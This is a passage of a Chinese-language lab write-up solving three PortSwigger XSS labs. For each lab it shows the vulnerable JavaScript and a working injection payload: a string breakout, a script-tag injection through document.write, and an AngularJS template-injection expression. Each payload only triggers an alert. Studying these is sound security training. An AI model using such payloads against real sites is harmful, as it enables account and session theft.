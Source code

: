 也就是a.href的滥用

## Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) into a JavaScript string with angle brackets HTML encoded

```js
 var searchTerms = 'search参数';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```

JS的内容直接来源于参数，应该是做了啥模板渲染的。注入js代码

```
%27;%0aalert(window.origin);%0ab='
```

## Lab: [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in `document.write` sink using source `location.search` inside a select element

```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```

直接Inject

```
/product?productId=1&storeId=<script>alert(window.origin)</script>
```

## Lab: [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in AngularJS expression with angle brackets and double quotes HTML-encoded

url参数在`><`中间，尖括号转义。无法逃出

而由于AngularJS的引入，可以 CSTI

```
{{$on.constructor('alert(window.origin)')()}}
```
